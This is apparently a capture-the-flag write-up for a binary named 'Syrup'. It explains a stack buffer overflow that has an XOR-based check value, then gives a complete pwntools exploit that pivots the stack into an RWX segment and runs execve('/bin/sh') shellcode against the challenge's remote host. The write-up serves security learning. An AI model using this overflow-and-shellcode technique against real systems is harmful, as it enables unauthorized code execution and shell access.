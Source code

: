 # Syrup

Binary's a little wacky, let's look into it.

There's no libc used whatsoever, everything is syscalls.

When the binary starts, it calls the _start function. This function is simple, it uses sys_write to print out "Can you pwn me?", then calls fn1, then jumps to the function nope.

Let's disassemble fn1. sets rax to the xor of 0xbeef and 0xdead, and pushes this onto the stack.

It then moves rbp to be rsp-0x400, and reads 0x800 bytes from stdin at rbp. Afterwards, it pops rax off of the stack, XORs it with 0xbeef, and checks if the value is 0xdead. 

If not, it jumps to the nope function. Otherwise, it rets, popping rbp off the stack before hand


This creates a simple buffer overflow. At the time of our input, the stack looks like this

rbp
0x400 bytes
rsp -> value to be popped into RAX
value to be popped into RBP
return address
previous stack frame

we can overflow with 0x400 bytes of padding, and then the value of 0xdead ^ 0xbeef. 

The binary has no protections whatsoever, including lack of NX. 

There is a RWX segment within the binary. Because fn1 uses rbp to mark where it starts its input, and we get a pop into rbp, we can set rbp to be the address of the RWX segment, and then ret into the instruction in fn1 that starts the input. Then, we enter shellcode, and ret to that address. Script below.
(I wrote custom shellcode that uses the fact that /bin/sh is written just before it)

```python
from pwn import *
rax = 0xdead ^ 0xbeef
e = ELF("./syrup")
payload = b'A' * 0x400 + flat(rax,0x402000, 0x000000000040105d,rax,b'B' * 8, 0x402000+8, word_size=64)
#p = e.process()
p = remote('jh2i.com', 50036)
p.recvline()
pause()
p.sendline(payload)
p.clean()
#Send shellcode
shellcode = asm("mov rdi,0x402000 ; mov rsi,0 ; mov rdx,0 ; mov rax,0x3b ; syscall", arch='amd64')
pause()
p.sendline(b"/bin/sh\x00" + shellcode)
p.interactive()
````
